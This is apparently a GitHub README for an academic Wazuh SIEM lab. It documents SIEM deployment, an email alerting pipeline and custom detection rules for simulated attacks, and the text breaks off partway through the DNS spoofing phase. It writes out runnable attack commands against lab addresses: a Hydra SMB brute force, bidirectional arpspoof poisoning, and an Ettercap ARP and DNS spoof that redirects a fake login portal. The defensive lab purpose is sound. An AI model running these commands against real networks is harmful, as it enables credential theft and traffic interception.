# Wazuh SIEM Lab — Network Attack Simulation & Detection


A self-contained, virtualized Security Operations Center (SOC) lab built to simulate four realistic network attack scenarios — **brute force, ARP Poisoning, DNS Spoofing, and EternalBlue (MS17-010)** — and validate their detection using the **Wazuh SIEM platform**, custom detection rules, and a network IDS (**Suricata**).

This repository documents an initiation internship project completed at **CHU Hassan II (Fès)**, within the Communication Systems and Information Security Engineering program (GSCSI) at **ENSA Fès**. The original work is an academic report; this README re-presents it as technical project documentation.

**What this project demonstrates:**
- Deploying and operating a Wazuh SIEM stack (Manager, Indexer, Dashboard) in single-node mode
- Writing custom Wazuh detection rules (XML) mapped to MITRE ATT&CK techniques
- Executing and analyzing four distinct attack techniques in an isolated lab network
- Building a secondary, host-independent detection mechanism (a Python/Scapy script) where agent-based logging alone is insufficient
- Integrating a network IDS (Suricata) with a SIEM for packet-level detection
- Configuring an end-to-end email alerting pipeline (Wazuh → Postfix → Thunderbird)

> **Scope note:** This is a lab/learning project conducted in an isolated, authorized virtual environment. It is not a production security deployment. See [Security Considerations](#security-considerations) and [Limitations and Challenges](#limitations-and-challenges).

---

## Table of Contents

- [Project Overview](#project-overview)
- [Architecture and Network Topology](#architecture-and-network-topology)
- [Tools and Technologies](#tools-and-technologies)
- [Project Implementation: Step by Step](#project-implementation-step-by-step)
  - [Phase 1 — SIEM Infrastructure Deployment](#phase-1--siem-infrastructure-deployment)
  - [Phase 2 — Brute Force Attack (SMB/RDP)](#phase-2--brute-force-attack-smbrdp)
  - [Phase 3 — ARP Poisoning (MITM)](#phase-3--arp-poisoning-mitm)
  - [Phase 4 — DNS Spoofing](#phase-4--dns-spoofing)
  - [Phase 5 — EternalBlue (MS17-010) Exploitation](#phase-5--eternalblue-ms17-010-exploitation)
- [Screenshots and Visual Evidence](#screenshots-and-visual-evidence)
- [Testing, Validation, and Results](#testing-validation-and-results)
- [Lessons Learned](#lessons-learned)
- [Limitations and Challenges](#limitations-and-challenges)
- [Next Steps and Future Improvements](#next-steps-and-future-improvements)
- [Repository Structure](#repository-structure)
- [Installation and Reproduction](#installation-and-reproduction)
- [Security Considerations](#security-considerations)
- [Conclusion](#conclusion)
- [References and Acknowledgments](#references-and-acknowledgments)

---

## Project Overview

### Background and context

Network intrusion detection is a core SOC function: raw logs and network traffic are only useful if they are centralized, correlated, and turned into actionable alerts. This project was carried out as an initiation internship at the IT security department of **CHU Hassan II**, a public university hospital, where protecting the confidentiality and availability of clinical information systems is a stated priority.

### Problem addressed

A SIEM is only as good as the detection logic configured on top of it. Standing up Wazuh is not enough by itself — the value comes from knowing **what an attack actually looks like on the wire and in the logs**, and translating that into rules that fire correctly, at the right severity, without being invented from theory alone.

### Objectives

1. Deploy a working Wazuh SIEM stack across a small multi-host lab.
2. Simulate four representative network attacks against a vulnerable target.
3. Build and validate custom detection rules for each attack, mapped to MITRE ATT&CK.
4. Confirm detection end-to-end: from the raw event, through the rule engine, to a dashboard view and an email alert.

### Solution

An isolated VMware lab with three roles — an **Ubuntu** server running the full Wazuh stack, a **Kali Linux** attacker VM, and a **Windows 7** victim VM — connected on a host-only network segment. Each of the four chapters below represents one full attack/detection cycle: reconnaissance → exploitation → custom Wazuh rule → verified alert (dashboard + email).

### Scope

- **In scope:** SIEM deployment, email alerting pipeline, 4 attack/detection scenarios (brute force, ARP poisoning, DNS spoofing, EternalBlue), custom Wazuh rules, one supplementary IDS (Suricata) integration.
- **Out of scope:** production hardening, multi-node Wazuh clustering, automated response/SOAR, attacks beyond the four documented scenarios, credential/data exfiltration beyond local demonstration.

### Main components and interaction

| Component | Role |
|---|---|
| Ubuntu 26.04 LTS | Hosts the full Wazuh stack (Manager + Indexer + Dashboard), Postfix, Thunderbird, Suricata, arpwatch |
| Kali Linux | Attacker machine (Nmap, Hydra, arpspoof, Ettercap, Metasploit) + Wazuh agent |
| Windows 7 x64 | Victim machine (intentionally unpatched, end-of-support) + Wazuh agent |

Agents forward logs to the Manager, which decodes and evaluates them against both built-in and custom rules. Alerts above a severity threshold are indexed for the Dashboard **and** routed through `wazuh-maild` → Postfix → a local mailbox read in Thunderbird.

### Outcome

All four attack scenarios were successfully simulated and detected. Each produced a corresponding Wazuh alert (visible in the Dashboard's Discover module and delivered by email) with the correct severity level and MITRE ATT&CK mapping. Full results per scenario are in [Testing, Validation, and Results](#testing-validation-and-results).

---

## Architecture and Network Topology


*Figure: Logical network layout of the lab (VMware Workstation Pro 17, host-only segment VMnet1, 192.168.0.0/24).*

**Components and roles:**

| Host | OS | Role | IP (VMnet1) |
|---|---|---|---|
| SIEM server | Ubuntu 26.04 LTS | Wazuh Manager + Indexer + Dashboard (single-node / all-in-one) | 192.168.0.140 |
| Attacker | Kali Linux | Pentest tools (Nmap, Hydra, Metasploit, Ettercap, arpspoof) + Wazuh agent | 192.168.0.133 |
| Victim | Windows 7 x64 | Attack target (unpatched, end-of-support) + Wazuh agent | 192.168.0.158 |

**Network configuration:**
- Each VM has **two virtual NICs**: a **NAT** adapter for internet access (package downloads/updates) and a **Host-only** adapter (`VMnet1`, subnet `192.168.0.0/24`) for inter-VM traffic.
- The Host-only segment isolates all lab/attack traffic from the physical host network, while NAT keeps each VM independently able to reach the internet for updates.
- All three Wazuh agents/manager communicate exclusively over the Host-only segment.

**Event/alert flow (email alerting pipeline):**


*Figure: Wazuh Manager → wazuh-maild → Postfix (local relay) → local mailbox (soc-admin@localhost) → Thunderbird (IMAP, port 143).*

1. The **Wazuh Manager** evaluates incoming events and generates alerts.
2. Alerts at or above the configured `email_alert_level` (12) are handed to **wazuh-maild**, which formats the email.
3. **Postfix**, configured in *"Local only"* mode, relays the message to the local mailbox of the `soc-admin` system user (no external SMTP exposure).
4. **Mozilla Thunderbird**, configured as an IMAP client (`imap.localhost:143`, STARTTLS), lets the analyst read alerts directly on the Ubuntu host.

This pipeline is shared across all four attack scenarios — it is configured once in Chapter 2 and reused by every detection rule described afterward.

---

## Tools and Technologies

### Virtualization & operating systems

| Tool/Technology | Purpose in the project | How it was used |
|---|---|---|
| VMware Workstation Pro 17 | Lab hypervisor | Hosted all three VMs with isolated NAT + Host-only networking |
| Ubuntu 26.04 LTS | SIEM server OS | Hosted the full Wazuh stack, Postfix, Thunderbird, Suricata, arpwatch |
| Kali Linux | Attacker OS | Pre-loaded with the offensive toolset used for every scenario |
| Windows 7 x64 | Victim OS | Chosen deliberately as an end-of-support (post Jan 14, 2020) target vulnerable to MS17-010 |

### SIEM / detection platform

| Tool/Technology | Purpose in the project | How it was used |
|---|---|---|
| Wazuh 4.14.5 (Manager, Indexer, Dashboard) | Core SIEM/HIDS platform | Installed single-node via the official install script; agents deployed on Kali and Windows 7 |
| Suricata | Network IDS/IPS | Ran in `af-packet` mode on `ens37`; ET Open ruleset (~52,000 signatures) detects EternalBlue at the packet level |
| arpwatch | ARP anomaly monitor | Watched `ens37` for MAC flip-flops / unexpected IP↔MAC changes, logged to syslog |

### Alerting

| Tool/Technology | Purpose in the project | How it was used |
|---|---|---|
| Postfix | Local mail transfer agent | Configured in "Local only" mode as a relay between `wazuh-maild` and the local `soc-admin` mailbox |
| Mozilla Thunderbird | Mail client | Configured as an IMAP client to read Wazuh alert emails locally on Ubuntu |

### Offensive / simulation tools

| Tool/Technology | Purpose in the project | How it was used |
|---|---|---|
| Nmap | Network/service reconnaissance | Host discovery (`-sn`), service/version scans, and the `smb-vuln-ms17-010` NSE script |
| Hydra (THC-Hydra) | Brute-force testing | Dictionary attack against the SMB service (port 445) on the Windows 7 target |
| arpspoof (dsniff suite) | ARP cache poisoning | Bidirectional ARP poisoning between victim and gateway to establish a MITM position |
| Ettercap | MITM + DNS spoofing | `arp:remote` MITM plugin combined with the `dns_spoof` plugin to redirect a target domain |
| Wireshark | Packet capture/analysis | Verified live interception of victim traffic from the attacker's position |
| Metasploit Framework | Exploitation framework | `exploit/windows/smb/ms17_010_eternalblue` module against the Windows 7 target |
| Apache + PHP | Phishing infrastructure (for the DNS spoofing scenario) | Hosted a fake login portal and a credential-logging PHP script |

### Scripting & analysis

| Tool/Technology | Purpose in the project | How it was used |
|---|---|---|
| Python 3 + Scapy | Custom DNS spoofing detector | Sniffed UDP/53 traffic and flagged IP/MAC inconsistencies on responses claiming to be from the gateway |
| tshark | DNS traffic capture | Captured/filtered port-53 traffic feeding the detection logic |
| systemd | Service persistence | Deployed `dns_spoof_detector.py` as a persistent service surviving reboots |

> Only tools explicitly documented in the source report are listed. All were actually implemented in the lab (none are "discussed only").

---

## Project Implementation: Step by Step

### Phase 1 — SIEM Infrastructure Deployment

**1. Objective**
Stand up a working, single-node Wazuh SIEM stack and connect both lab machines to it, with a reliable email alerting path.

**2. Environment and prerequisites**
- Ubuntu 26.04 LTS VM (Wazuh host), Kali Linux VM, Windows 7 x64 VM
- All three on the `VMnet1` host-only network (`192.168.0.0/24`), each also NAT-connected for internet access

**3. Implementation**

Wazuh 4.14.5 was installed all-in-one (Manager + Indexer + Dashboard) via the official script:

```bash
curl -sO https://packages.wazuh.com/4.14/wazuh-install.sh
sudo bash ./wazuh-install.sh -a
```

The Windows 7 agent was side-loaded over the internal network (no direct internet access required on the victim host):

```bash
# On Ubuntu — serve the MSI locally
cd /tmp
wget https://packages.wazuh.com/4.x/windows/wazuh-agent-4.14.5-1.msi
python3 -m http.server 8080
```

```cmd
:: On Windows 7 — elevated CMD
bitsadmin /transfer wazuh http://192.168.0.140:8080/wazuh-agent-4.14.5-1.msi C:\wazuh-agent.msi
msiexec.exe /i C:\wazuh-agent.msi /q WAZUH_MANAGER="192.168.0.140" WAZUH_AGENT_NAME="WIN7-Workstation"
net start WazuhSvc
```

The Kali agent was installed from the official `.deb` package:

```bash
wget https://packages.wazuh.com/4.x/apt/pool/main/w/wazuh-agent/wazuh-agent_4.14.5-1_amd64.deb
sudo WAZUH_MANAGER='192.168.0.140' WAZUH_AGENT_NAME='Kali-Machine' dpkg -i ./wazuh-agent_4.14.5-1_amd64.deb
sudo systemctl daemon-reload
sudo systemctl enable wazuh-agent
sudo systemctl start wazuh-agent
```

Email alerting was then configured: Postfix installed in **"Local only"** mode (no external mail exposure — it only relays between `wazuh-maild` and the local `soc-admin` mailbox), and Thunderbird set up as an IMAP client against `imap.localhost:143` (STARTTLS, normal password auth). The relevant `ossec.conf` block:

```xml
<global>
  <email_notification>yes</email_notification>
  <smtp_server>localhost</smtp_server>
  <email_from>wazuh@wazuh-soc</email_from>
  <email_to>soc-admin@localhost</email_to>
  <email_maxperhour>5</email_maxperhour>
</global>
<alerts>
  <log_alert_level>3</log_alert_level>
  <email_alert_level>12</email_alert_level>
</alerts>
```
*(Full file: [`configs/ossec_global_alerting.conf`](configs/ossec_global_alerting.conf))*

**4. Technical explanation**
Single-node deployment (all three Wazuh components on one host) is appropriate for a lab scale but is explicitly not how Wazuh is deployed in production (where Manager, Indexer, and Dashboard are typically separated for scale and resilience). "Local only" Postfix mode was chosen deliberately to avoid exposing an SMTP relay to the network — the mail flow never leaves the host.

**5. Screenshots**


*Figure: Both agents (Kali-Machine, WIN7-Workstation) reporting "active" in the Wazuh Dashboard endpoint view.*


*Figure: Thunderbird configured against the local Dovecot/Postfix mail server (imap.localhost:143, STARTTLS).*

**6. Verification**
Both agents showed `active` status under the Wazuh Dashboard's Agents view, confirming log ingestion from both lab hosts.

**7. Outcome**
A functioning SIEM backbone — centralized log collection plus a working, locally-contained email notification channel — reused unchanged by all four attack scenarios that follow.

---

### Phase 2 — Brute Force Attack (SMB/RDP)

**1. Objective**
Simulate a credential brute-force attack against SMB and detect it with correlation rules that distinguish failed attempts, a brute-force threshold, and the exact successful-logon vector.

**MITRE ATT&CK:** T1110 (Brute Force)

**2. Environment and prerequisites**
Windows 7 target with SMB (445) and RDP (3389) reachable on the lab segment; Kali attacker with Nmap and Hydra.

**3. Implementation**

Reconnaissance:
```bash
sudo nmap -sn 192.168.0.0/24                      # host discovery
sudo nmap -sV -p 3389,445 192.168.0.158            # targeted service/version scan
```
Result: SMB (445, Microsoft-DS, Workgroup: WORKGROUP) and RDP (3389) both confirmed open on `192.168.0.158` (hostname `USER-PC`).

A custom password dictionary (`wordlist.txt`) was created, then used against the SMB service:
```bash
hydra -l ADMINISTRATOR -P wordlist.txt smb://192.168.0.158 -V
```

**4. Technical explanation**
`-l` targets a single known username (`ADMINISTRATOR`); `-P` supplies the password list; `-V` prints every attempt in real time. This models a credential-stuffing style attack against a weak/default-password account rather than an exploit of a software flaw.

**5. Screenshots**


*Figure: Confirmed open SMB (445) and RDP (3389) services on the Windows 7 target.*


*Figure: Hydra finds a valid credential — `ADMINISTRATOR / password123` — against SMB on 192.168.0.158.*

**6. Verification — detection rules**

```xml
<rule id="100100" level="5">
  <if_sid>60122</if_sid>
  <description>Windows Security: Failed authentication attempt for user $(win.eventdata.targetUserName) on $(win.eventdata.computer)</description>
  <mitre><id>T1110</id></mitre>
</rule>

<rule id="100101" level="12" frequency="5" timeframe="30">
  <if_matched_sid>100100</if_matched_sid>
  <description>CRITICAL ALERT: Windows Brute Force Attack Detected - High frequency logon failures on $(win.system.computer)</description>
  <mitre><id>T1110.001</id></mitre>
</rule>

<rule id="100102" level="10">
  <if_sid>60106</if_sid>
  <field name="win.eventdata.logonType">^3$</field>
  <description>CRITICAL ALERT: Successful SMB / Network Logon - User $(win.eventdata.targetUserName) connected to $(win.system.computer)</description>
</rule>
```
*(Full rule set, including RDP/console variants: [`rules/local_rules.xml`](rules/local_rules.xml))*

| Rule ID | Level | Trigger | Purpose |
|---|---|---|---|
| 100100 | 5 | Windows Event ID 4625 (failed logon) | Capture each individual failed attempt |
| 100101 | 12 | 5× rule 100100 within 30s | Critical correlation alert — brute force in progress |
| 100102 | 10 | Event ID 4624 + `logonType=3` | Successful SMB/network logon |
| 100103 | 10 | Event ID 4624 + `logonType=10` | Successful RDP logon |
| 100104 | 7 | Event ID 4624 + `logonType=2` | Successful local console logon |

Each level produced its own email alert (level 5 → LOW, level 12 → CRITICAL, level 10 → HIGH), and the Dashboard's Discover module showed a 44-hit spike correlating with the Hydra run, with fields `data.win.eventdata.ipAddress` (192.168.0.133, attacker), `agent.ip` (192.168.0.158, victim), `targetUserName` (Administrator) and `logonType` (3) all correctly extracted.

**7. Outcome**
Full kill-chain visibility: failed attempts → brute-force threshold alert → confirmed successful SMB logon, each as a distinct, correctly-scoped Wazuh alert.

---

### Phase 3 — ARP Poisoning (MITM)

**1. Objective**
Demonstrate an ARP cache poisoning / MITM attack and detect it passively via ARP cache anomaly monitoring, without modifying the network.

**MITRE ATT&CK:** T1557 (Adversary-in-the-Middle)

**2. Environment and prerequisites**
`arpwatch` installed and initialized on Ubuntu, listening on `ens37`, with a baseline of legitimate IP↔MAC associations recorded before any attack traffic.

**3. Implementation**

IP forwarding was enabled on the attacker to keep traffic flowing (and the attack covert):
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```
Two simultaneous `arpspoof` processes performed bidirectional poisoning:
```bash
sudo arpspoof -i eth1 -t 192.168.0.158 192.168.0.1
sudo arpspoof -i eth1 -t 192.168.0.1 192.168.0.158
```

**4. Technical explanation**
The first process tells the victim (`.158`) that the attacker owns the gateway's (`.1`) MAC; the second tells the gateway the reverse. This dual-direction poisoning is required for a full bidirectional interception, since ARP poisoning a single direction only intercepts traffic in one direction.

**5. Screenshots**


*Figure: Victim's ARP cache showing the correct MAC for the gateway (192.168.0.1) before any attack.*


*Figure: Two arpspoof processes running simultaneously, one per direction of the poisoning.*


*Figure: The same ARP cache entry now resolves 192.168.0.1 to the attacker's MAC address.*


*Figure: Victim-to-gateway traffic captured live on the attacker's interface, confirming the MITM position is functional.*

**6. Verification — detection rules**

```xml
<rule id="100010" level="10">
  <decoded_as>arpwatch-flipflop</decoded_as>
  <description>Possible ARP Spoofing / MITM detected: MAC flip-flopping for IP $(srcip)</description>
</rule>

<rule id="100011" level="10">
  <decoded_as>arpwatch-changed</decoded_as>
  <description>Possible ARP Spoofing / MITM detected: MAC changed unexpectedly for IP $(srcip)</description>
</rule>
```

Detection chain: `arpwatch` → syslog → rsyslog → `/var/log/syslog` → Wazuh Agent → Wazuh Manager → alert. The Dashboard Discover view showed **39 alerts** generated during the capture window, all tied to rule 100010, level 10, with `data.srcip` correctly reporting the spoofed gateway IP.

**7. Outcome**
Confirmed that passive ARP monitoring (no active protection, no network changes) is sufficient to detect a live MITM attack within seconds, and that the full attack chain — from poisoning to actual traffic interception (verified in Wireshark) — was reproducible end-to-end.

> **Note on scope:** exploitation was limited to passive traffic observation via Wireshark. Active credential extraction or content injection over this MITM position was not performed in this scenario (it is demonstrated instead in Phase 4 via DNS Spoofing).

---

### Phase 4 — DNS Spoofing

**1. Objective**
Chain an ARP-based MITM position into a targeted DNS spoofing attack that redirects a victim to a fake login portal, and detect it with a custom Layer2/Layer3 consistency check (not a simple IP allow-list).

**MITRE ATT&CK:** T1557 (Adversary-in-the-Middle)

**2. Environment and prerequisites**
Apache + PHP hosted on Kali to serve a fake copy of an internal login portal (`portal.corp-intranet.com` — a fictitious internal hostname created for this lab), plus a credential-logging PHP script.

**3. Implementation**

DNS redirection entries were added to Ettercap's `etter.dns`:
```text
mail.local A 192.168.0.133
www.portal.corp-intranet.com A 192.168.0.133
portal.corp-intranet.com A 192.168.0.133
```
*(Full file: [`configs/etter.dns.sample`](configs/etter.dns.sample))*

ARP poisoning and DNS spoofing were launched together in a single Ettercap command:
```bash
sudo ettercap -T -q -i eth1 -M arp:remote /192.168.0.158// -P dns_spoof
```

**4. Technical explanation**
